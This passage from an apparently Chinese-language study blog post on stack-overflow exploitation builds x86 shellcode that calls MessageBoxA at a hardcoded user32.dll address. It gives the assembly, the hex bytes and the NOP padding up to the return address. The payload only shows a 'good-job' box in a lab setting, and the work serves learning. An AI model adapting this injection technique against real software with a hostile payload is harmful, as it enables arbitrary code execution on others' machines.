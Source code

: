 其中`hWnd`和`uType`均为`NULL`即可，另外两个参数我们均设置为`good-job`。

注意。系统中并不存在真正的`MessageBox`函数，而是会用`MessageBoxA`(ASCII)或者`MessageBoxW`(Unicode)。

为了用汇编语言调用`MessageBox`，我们还需要`MessageBox`函数地址。其地址为`user32.dll`在系统中的加载地址与`MessageBox`在库中的偏移地址相加。我们通过`Dependency Walker`随便打开一个带GUI的PE文件便可查看这些数值：

![Screen Shot 2018-06-19 at 2.57.06 PM.png]({{ site.url }}/images/0day/1859804B086C8AD143D9C80C89822999.png)

如图，最终`MessageBox`地址为`0x77D10000 + 0x000407EA = 0x77D507EA`。

然后就是编写Shellcode：

```assembly
xor ebx, ebx
push ebx
push 626F6A2D
push 646F6F67
mov eax, esp
push ebx ; uType
push eax ; lpCaption
push eax ; lpText
push ebx ; hWnd
mov eax, 0x77D507EA
call eax
```

其二进制码如下：

```
33 DB 53 68 2D 6A 6F 62 68 67 6F 6F 64 8B C4 53 50 50 53 B8 EA 07 D5 77 FF D0
```

`buffer`中的其余空间我们用`nop`（二进制为`90`）填充，直到返回地址处。最终形成的注入代码如下：

![Screen Shot 2018-06-19 at 5.13.17 PM.png]({{ site.url }}/images/0day/92DC1B6BB1D9D1C4BBD27019A42F9C00.png)

测试：

![Screen Shot 2018-06-19 at 5.17.48 PM.png]({{ site.url }}/images/0day/B8092B6530D1A22ED02283C13FD6E2B8.png)

![Screen Shot 2018-06-19 at 5.18.01 PM.png]({{ site.url }}/images/0day/2340A8C20BD45170AD24D8B281FA9C1B.png)

成功，但同样出现错误，暂不管它。

## 总结

本章用的环境还是十分简单，没有涉及各种漏洞缓解措施。

之前研究过Linux下的栈溢出，所以到这里还是轻车熟路、毫无压力的。栈溢出的确很有意思啊。不过我更希望在后面跟作者学到堆溢出技术。

继续加油啦。
